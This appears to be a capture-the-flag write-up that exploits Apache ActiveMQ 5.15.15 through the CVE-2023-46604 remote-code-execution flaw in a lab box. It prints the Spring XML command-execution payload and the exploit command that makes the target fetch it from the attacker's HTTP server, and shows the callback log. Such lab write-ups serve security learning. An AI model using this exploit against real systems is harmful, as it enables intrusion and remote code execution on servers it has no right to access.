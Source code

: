 The admin panel discloses that it runs ActiveMq version: **5.15.15**.
A quick search for ActiveMQ version 5.15.15 reveals that it is vulnerable to a pretty serious RCE vulnerability: https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/.

# Gaining User Access
## ActiveMq RCE
As explained previously, the used version of ActiveMQ is affected by an [RCE vulnerability](https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/).
I found the following POC: https://github.com/X1r0z/ActiveMQ-RCE/blob/main/README-en.md

Before we can use the POC we must first modify the payload.
Let's let it start a reverse shell.
Looking at the POC, we must modify the file `poc.xml`

Originally it contains the following payload:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
                <!-- <value>bash</value>
                <value>-c</value>
                <value>touch /tmp/success</value> -->
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Before actually setting up the reverse shell, let's first test if we actually receive a callback.

For this, we'll setup a small http server and see if it is pinged.
Setup a http server on your local device (for example with python http.server) to detect any incoming request
```bash
python -m http.server
```

Now, send the exploit and change the spring xml url.
```bash
$ ./ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.14.44:8000/poc.xml
```

If the server is vulnerable you should observe an incoming request on the local http server's log like so
```
$ python -m http.server               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.243 - - [21/Jan/2024 11:04:24] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [21/Jan/2024 11:04:24] "GET /poc.xml HTTP/1.1" 200 -
```
